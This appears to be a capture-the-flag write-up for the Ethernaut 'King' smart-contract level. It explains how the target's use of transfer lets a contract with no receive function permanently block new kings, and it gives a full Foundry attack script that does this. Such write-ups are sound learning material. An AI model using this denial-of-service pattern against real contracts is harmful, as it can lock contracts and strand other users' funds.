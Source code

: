 # King   
This level was quite interesting. The goal is to break the game in such a way that no other contracts or wallets can become the king. The key to solving this challenge lies in the `receive` function of the target contract: 
```solidity
receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        payable(king).transfer(msg.value);
        king = msg.sender;
        prize = msg.value;
    }
```
The issue here is the use of the `transfer` function to send Ether to the current king. If the `transfer` fails (e.g., if the recipient is a contract that cannot receive Ether), the entire transaction will revert, and the `king` and `prize` variables will not be updated. This creates an opportunity to break the game by ensuring that the `transfer` always fails.

To exploit this, we can deploy a contract that becomes the king but does not implement a `receive` or `fallback` function. This means that when the target contract attempts to send Ether back to our contract using `transfer`, the transaction will fail, and no one else will be able to become the new king.

Here’s the script I used to automate the attack:
```solidity
//SPDX-License-Identifier: MIT

pragma solidity 0.8.20;

import {Script} from "forge-std/Script.sol";

contract AttackScript is Script {
		
	NewKing newKing;	
	address victim = /* Your instance address */ ;	

	function run() public {
	(, bytes memory data) = victim.staticcall(abi.encodeWithSignature("prize()"));
	uint256 prize = abi.decode(data, (uint256));	
	vm.startBroadcast();
	newKing = new NewKing{value: prize}(victim, prize);
	newKing.attack();
	vm.stopBroadcast();
}
}

contract NewKing {
	address victim;
	uint256 prize;

	constructor(address _victim, uint256 _prize) payable {
	victim = _victim;
	prize = _prize;
}

	function attack() public {
	victim.call{value: prize}("");
}
}
```

